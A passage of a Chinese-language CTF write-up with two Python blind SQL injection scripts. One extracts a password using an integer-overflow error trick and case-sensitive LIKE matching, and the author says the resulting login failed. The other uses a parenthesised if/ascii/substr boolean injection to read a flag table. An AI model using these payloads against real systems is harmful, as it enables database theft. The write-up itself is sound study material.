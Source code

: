 和虎符的题目很像就是多了一些过滤，大小写用utf8mb4_bin+collate来判断，但是原来的~0溢出用不了因为~被过滤了，要换成!0+18446744073709551615+1+''，让整数溢出

regexp也被过滤了用不了，用%来代替

payload

```python
import requests
url='http://1.14.71.254:28465/login.php'
k=''
for i in range(1,50):
    for ascii in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$^&._'":
        t=ascii

        payload={
            'password':'xxx',
            # "username":f"'||case`username`like'{flag+temp}%'COLLATE'utf8mb4_bin'when'1'then!0+18446744073709551615+1+''else'0'end||'",
            "username":f"'||case`password`like'{k+t}%'COLLATE'utf8mb4_bin'when'1'then!0+18446744073709551615+1+''else'0'end||'",
        }
        response=requests.post(url=url, data=payload)
        if response.status_code==500:
            k+=t
            print(flag)
            break
```

![](https://raw.githubusercontent.com/Ranga10k/picture.jpg/main/20220610201849.png)

但是登不上不知道怎么回事

## [CISCN 2019华北Day2]Web1

简单题,用sql的if盲注,空格被过滤用括号

payload

```python
import requests

url = 'http://1.14.71.254:28985/index.php'
U = ''

for i in range(1, 50):
    for j in range(32, 140):

        payload = "if((ascii(substr((select(flag)from(flag)),{},1))={}),1,0)".format(i, j)
        data = {"id": payload}
        res = requests.post(url=url, data=data)  # 请求

        if 'Hello, glzjin wants a girlfriend' in res.text:
            U = U + chr(j)

            print(U)
            break

```
